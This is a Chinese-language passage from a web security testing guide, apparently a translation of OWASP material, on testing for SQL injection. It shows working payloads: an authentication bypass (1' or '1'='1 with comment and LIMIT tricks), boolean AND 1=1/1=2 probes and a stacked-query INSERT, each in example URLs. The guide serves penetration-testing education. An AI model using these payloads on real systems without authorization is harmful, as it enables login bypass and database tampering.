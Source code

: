 检查所有来自web服务器的响应，同时查看HTML/JavaScript 源代码。有时错误会藏在这些代码中，但不显露给用户。完整的错误信息会提供给测试人员注入参考信息。但是应用很多时候不会提供太多细节。这意味着我们需要使用盲注技术。在任何情况下，单独测试每个字段是非常重要的，即每一步测试中仅修改一个变量值，这样可以精确的理解某个参数是否存在注入漏洞。

### 标准SQL 注入测试
#### 经典SQL注入

考虑下列sql查询：```SELECT * FROM Users WHERE Username='$username' AND Password='$password'```

这类查询通常用于认证用户。用户输入通常通过表单进行提交，假设我们插入如下的用户名和密码：
```$username=1' or '1'='1``` 和 ```$password=1' or '1'='1```

查询将为：```SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'```

如果我们假设参数值经过GET方法送到服务器，而且问题网站的域名是www.example.com，那么执行的请求如下：```http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1```

简单分析可知，查询将返回一个/组值，因为条件总是为True。这样，系统就在不知道用户名和密码的情况下对用户进行了身份验证。
> 不少系统的第一个用户是系统管理员。而在某些情况下，这可能是返回的配置文件。

另一个查询例子：```SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))```

在这种情况下，存在两个问题，一个是由于使用括号引起的，另一个是由于使用MD5哈希函数引起的。首先，我们解决了括号问题。这仅包括添加多个右括号，直到获得正确的查询。为了解决第二个问题，我们试图逃避第二个条件。我们在查询中添加了最后一个符号，这样该符号后的所有内容均视为注释。每个DBMS都有自己的注释语法，但是，大多数数据库的通用符号是星号 *。在Oracle中，符号为--。也就是说，我们将用作用户名和密码的值为：```$username = 1' or '1' = '1'))/*``` 和 ```$password = foo```

这样，我们将获得以下查询：
```SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))```

由于在$ username值中包含了注释定界符，因此查询的密码部分将被忽略。

URL请求将为：
```http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo```

这可能会返回许多值。有时身份验证代码会验证返回的记录/结果数是否等于1。在前面的示例中，这种情况将很困难（在数据库中，每个用户只有一个值）。为了解决此问题，插入一个SQL命令就足够了，该命令强加一个条件，即返回结果的数量必须为1。（返回一条记录）为了达到此目标，我们使用运算符```LIMIT <num>```，其中，```<num>```是我们要返回的结果/记录的数量。对于前面的示例，“用户名”和“密码”字段的值将进行如下修改：
```$username = 1' or '1' = '1')) LIMIT 1/*``` 和 ```$password = foo```

这样，我们形成的查询语句如下：

```http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo```

#### SELECT 语句

考虑下列SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

还考虑对执行上述查询的脚本的请求：```http://www.example.com/product.php?id=10```

当测试人员尝试输入有效值（例如，在这种情况下为10）时，应用程序将返回产品说明。测试应用程序在这种情况下是否易受攻击的好方法是使用运算符AND和OR进行逻辑运算。

考虑请求：```http://www.example.com/product.php?id=10 AND 1=2```

```SELECT * FROM products WHERE id_product=10 AND 1=2```

在这种情况下，应用程序可能会返回一些消息，告诉我们没有可用的内容或空白页。然后，测试人员可以发送真实的语句并检查是否存在有效的结果：

```http://www.example.com/product.php?id=10 AND 1=1```

#### Stacked Queries

取决于Web应用程序使用的API和DBMS（例如PHP + PostgreSQL，ASP + SQL SERVER），一次调用即可执行多个查询。

考虑以下SQL查询：```SELECT * FROM products WHERE id_product=$id_product```

利用上述情况的一种方法是：```http://www.example.com/product.php?id=10; INSERT INTO users (…)```
```